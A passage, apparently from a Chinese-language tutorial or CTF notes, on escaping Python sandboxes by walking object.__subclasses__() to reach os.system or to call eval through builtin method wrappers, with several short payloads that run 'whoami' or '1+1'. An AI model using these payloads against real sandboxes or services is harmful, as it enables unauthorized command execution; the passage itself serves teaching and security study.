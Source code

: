 3.x 中的`warnings`虽然没有 `linecache`，也有`__builtins__`。

同样，py3.x 中有`<class 'os._wrap_close'>`，利用方式可以为：

```python
>>> ''.__class__.__mro__[-1].__subclasses__()[133].__init__.__globals__['system']('whoami')
macr0phag3
0
>>> # 为了避免 index 位置问题，可以这样写：
>>> [i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('whoami')
```

当然这样也是可以的（3.x）：

```python
set.mro()[-1].__subclasses__()[133].__init__.__globals__['system']('whoami')
```

顺便提一下，`object` 本来就是可以使用的，如果没过滤的话，payload 可以再简化为：

```python
object.__subclasses__()[133].__init__.__globals__['system']('whoami')
# object 表示 <class 'object'>
# object.__subclasses__() 表示获取 object 类的所有子类，会返回一个由子类构成的列表。subclasses 是一个用于获取子类的方法！
# object.__subclasses__()[133] 表示获取第 134 个 子类，也就是一个 class。

# object.__subclasses__()[133].__init__ 会返回某类的包装器 wrapper，现在我也还不太明白....



```

还有一种是利用`builtin_function_or_method` 的 `__call__`：

```python
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval, '1+1')
```

或者简单一点：

```python
[].pop.__class__.__call__(eval, '1+1')
```

上面这些 payload 大多数是直接 index 了，但是直接用 index 不太健壮，可以都换成列表推导式，用 `__name__` 来获取想要的 class，上面也举了好几个例子了，这里就不多说啦。

最后再补充几个。

可以这样利用：

```python
class test(dict):
    def __init__(self):
        print(super(test, self).keys.__class__.__call__(eval, '1+1'))
        # 如果是 3.x 的话可以简写为：
        # super().keys.__class__.__call__(eval, '1+1'))
test()
```
